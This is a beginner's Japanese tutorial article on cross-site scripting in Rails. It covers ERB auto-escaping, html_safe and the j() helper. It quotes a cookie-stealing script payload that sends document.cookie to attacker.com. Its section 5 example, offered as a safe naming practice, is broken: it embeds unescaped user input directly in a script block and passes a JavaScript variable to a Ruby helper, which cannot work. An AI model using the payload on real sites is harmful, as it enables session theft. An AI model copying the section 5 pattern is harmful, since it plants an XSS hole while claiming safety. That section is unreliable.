 ```yaml
---
title: 【セキュリティ】XSS
tags:
  - Security
  - 初心者
  - xss
  - 未経験エンジニア
  - 独学
private: false
updated_at: '2025-04-20T12:06:14+09:00'
id: f83a8b8a35cc8e339c22
organization_url_name: null
slide: false
ignorePublish: false
---
```

# はじめに

こんにちは。アメリカに住みながら、独学でエンジニアを目指しているTairaです。
現在リーダブルコードを読んでいますが、そこで出てきたXSSについて知識の再整理をしたいと考え記事を書こうと思いました

## 1. XSS（クロスサイトスクリプティング）とは？

**XSS（Cross-Site Scripting）** は、悪意のあるスクリプトをWebページに埋め込み、ユーザーのブラウザでそのスクリプトを実行させる攻撃手法です。

### 想定される被害
- クッキー情報の窃取（セッションハイジャック）
- フィッシング（偽ログインページの表示）
- 意図しないユーザー操作の実行（クリックジャッキングなど）

## 2. 危険な例（Rails）

```erb
<p><%= params[:name] %></p>
```

このコードに以下のようなリクエストが送られると、エスケープされていない場合はスクリプトが実行されてしまいます：

```
http://example.com/?name=<script>alert('XSS!')</script>
```

### 具体例（コメント欄のXSS）
たとえば、ユーザーがコメント欄に以下のようなコードを投稿したとします：

```html
<script>document.location='http://attacker.com?cookie=' + document.cookie</script>
```

これがそのまま表示されると、ページを訪れた他のユーザーのブラウザでスクリプトが実行され、クッキーが盗まれる可能性があります。

## 3. Railsは自動でエスケープしてくれる？

### はい、Railsは基本的にERBにおいて自動でエスケープ処理を行います。

```erb
<p><%= @user.name %></p>
```

このコードは、内部的に以下のように変換され、HTMLとして無害に表示されます：

```erb
<p><%= h(@user.name) %></p>
```

### エスケープ例
| 文字 | エスケープ結果 |
|------|----------------|
| `<`  | `&lt;`         |
| `>`  | `&gt;`         |
| `&`  | `&amp;`        |
| `"`  | `&quot;`        |
| `'`  | `&#39;`        |

## 4. 注意が必要なケース（html_safeの使用）

```erb
<p><%= @comment.body.html_safe %></p>
```

`.html_safe` を使うと、エスケープ処理が無効になり、HTMLとしてそのまま描画されてしまいます。信頼できないユーザー入力に対して使うと、XSSの温床になります。

## 5. JavaScriptへの出力時の注意点

JavaScript内に変数として埋め込む場合、`j()`（`escape_javascript`）ヘルパーを使うと安全です。

```erb
<script>
  const userName = "<%= j @user.name %>";
</script>
```

また、**まだエスケープしていない文字列データをJavaScriptで扱うときには、変数名に `raw_` を付けるなどして注意を喚起する命名を行うことが望ましいです。**

```erb
<script>
  const raw_userName = "<%= @user.name %>"; // 非エスケープのまま
  const userName = "<%= j raw_userName %>";  // j() でエスケープしてから使用
</script>
```

このようにすることで、エスケープ処理を忘れず、安全性を意識したコーディングがしやすくなります。

## 6. RailsにおけるXSS対策まとめ

| 方法 | 内容 | 備考 |
|------|------|------|
| `<%= %>` | 自動でHTMLエスケープされる | 基本的に安全 |
| `raw`, `html_safe` | エスケープ無効化 | 原則使用注意 |
| `j()` | JavaScriptへの出力時に使用 | `escape_javascript` と同等 |
| `raw_` | 未エスケープデータの識別に有効な命名規則 | チーム開発での事故防止にも役立つ |

## 7. まとめ

- XSSは、ユーザーのブラウザでスクリプトを実行させる攻撃
- Railsは基本的にERBの出力を自動でエスケープしてくれるため安全
- ただし `html_safe` や `raw` の使用は慎重に！
- JavaScript内に出力する際には `j()` ヘルパーを使用する
- 未エスケープデータには `raw_` などのプレフィックスを使うことで安全性を高められる




